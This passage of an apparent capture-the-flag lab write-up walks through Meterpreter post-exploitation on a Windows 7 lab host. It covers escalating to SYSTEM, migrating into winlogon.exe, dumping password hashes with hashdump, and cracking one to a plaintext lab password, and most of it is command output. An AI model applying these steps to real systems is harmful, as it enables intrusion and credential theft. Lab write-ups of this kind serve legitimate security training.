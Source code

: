 ```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : JON-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > whoami
[-] Unknown command: whoami.
meterpreter > shell
Process 2472 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
7. List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).
```
PID  PPID  Name          Arch  Session  User                 Path
 ---  ----  ----          ----  -------  ----                 ----
 656  596   winlogon.exe  x64   1        NT AUTHORITY\SYSTEM  C:\Windows\System32\winlogon.exe

```
8. Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 
```
meterpreter > migrate -N winlogon.exe
[*] Migrating from 1968 to 656...
[*] Migration completed successfully.
```

#Task 4 Cracking

Dump the non-default user's password and crack it!

1. Within out elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 
```
Jon
```
2. Copy this password hash to a file and research how to crack it.  What is the cracked password?
```
hash: ffb43f0de35be4d9917ac0cc8ad57f8d (ran through online hash cracker)

password: alqfna22
```
